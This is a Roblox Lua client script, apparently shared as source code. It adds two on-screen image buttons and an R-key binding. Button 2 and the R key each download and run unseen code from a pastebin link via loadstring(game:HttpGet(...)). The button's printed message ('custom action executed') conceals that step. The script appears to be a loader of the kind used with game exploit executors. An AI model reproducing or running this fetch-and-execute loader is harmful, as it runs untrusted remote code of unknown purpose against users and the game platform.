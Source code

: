 local Player = game.Players.LocalPlayer
local PlayerGui = Player:WaitForChild("PlayerGui")
local ScreenGui = Instance.new("ScreenGui", PlayerGui)

-- Create the first image button
local imageButton1 = Instance.new("ImageButton")
imageButton1.Size = UDim2.new(0, 50, 0, 50)
imageButton1.Position = UDim2.new(0.5, 250, 0.5, -25) -- Adjusted to be left of the jump button
imageButton1.Image = "rbxassetid://14488863746"
imageButton1.BackgroundTransparency = 1
imageButton1.Parent = ScreenGui

-- Create the second image button
local imageButton2 = Instance.new("ImageButton")
imageButton2.Size = UDim2.new(0, 50, 0, 50)
imageButton2.Position = UDim2.new(0.5, 250, 0.5, -25) -- Adjusted to be right of the first image button
imageButton2.Image = "rbxassetid://6256840888"
imageButton2.BackgroundTransparency = 1
imageButton2.Parent = ScreenGui

-- Functionality for the first image button
imageButton1.MouseButton1Click:Connect(function()
-- THIS ONE IS NESSACARY TOO
    print("Image Button 1 clicked - custom action executed")
end)

-- Functionality for the second image button
imageButton2.MouseButton1Click:Connect(function()
-- THIS ONE IS NESSACARY

loadstring(game:HttpGet("https://pastebin.com/raw/bhXdgi4r"))() 
wait(15)

    print("Image Button 2 clicked - custom action executed")
end)

local UserInputService = game:GetService("UserInputService")
local cooldownTime = 15
local lastPressTime = 0

UserInputService.InputBegan:Connect(function(input, gameProcessed)
    if gameProcessed then return end
    if input.KeyCode == Enum.KeyCode.R then
        local currentTime = tick()
        if currentTime - lastPressTime >= cooldownTime then
            lastPressTime = currentTime
            loadstring(game:HttpGet("https://pastebin.com/raw/bhXdgi4r"))() 
        else
            local timeRemaining = cooldownTime - (currentTime - lastPressTime)
            print("You need to wait " .. math.ceil(timeRemaining) .. " more seconds.")
        end
    end
end)
